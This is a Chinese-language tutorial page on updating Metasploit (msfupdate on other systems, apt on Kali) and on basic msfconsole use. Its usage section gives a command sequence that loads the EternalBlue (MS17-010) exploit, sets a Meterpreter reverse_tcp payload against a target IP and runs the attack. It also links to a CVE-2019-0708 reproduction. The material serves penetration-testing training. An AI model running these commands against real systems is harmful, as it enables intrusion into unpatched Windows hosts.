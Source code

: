 
### MSF 的更新升级

#### 非 kali 环境下更新升级 MSF
命令：
~~~bash
msfupdate  #MSF后期更新升级
~~~

#### kali 环境下更新升级 MSF
> 由于 kali 中的 Metasploit 渗透测试框架是集成在系统中的
> 不是单独安装，不支持使用 msfupdate 命令更新
> 更新的话需要随系统程序更新

使用 msfupdate 命令会出现下面的情况
~~~bash
┌──(root💀kali)-[~/desktop]
└─# msfupdate
msfupdate is no longer supported when Metasploit is part of the operating
system. Please use 'apt update; apt install metasploit-framework'
~~~

在 kali 中更新 MSF 使用以下命令
~~~bash
apt update 					# 更新安装包信息；只检查，不更新（已安装的软件包是否有可用的更新，给出汇总报告）
apt upgrade 				# 更新已安装的软件包，不删除旧包；
apt full-upgrade			# 升级包，删除旧包
~~~

使用上面命令，是在更新系统程序的同时，把 MSF 更新

---

## 使用方法

### 基础使用
~~~bash
msfconsole										    #进入框架
search  ms17_010                                    # 使用search命令查找相关漏洞
use exploit/windows/smb/ms17_010_eternalblue        # 使用use进入模块
info     										    #使用info查看模块信息
set payload windows/x64/meterpreter/reverse_tcp    	#设置攻击载荷
show options    									#查看模块需要配置的参数
set  RHOST  192.168.100.158    					    #设置参数
exploit / run     								    #攻击
~~~

---

### `MSF` 中加载自定义的 `exploit模块`

[参考CSDN-CVE-2019-0708 远程桌面漏洞复现](https://blog.csdn.net/weixin_45588247/article/details/119488520?spm=1001.2014.3001.5501 "CVE-2019-0708 远程桌面漏洞复现")

---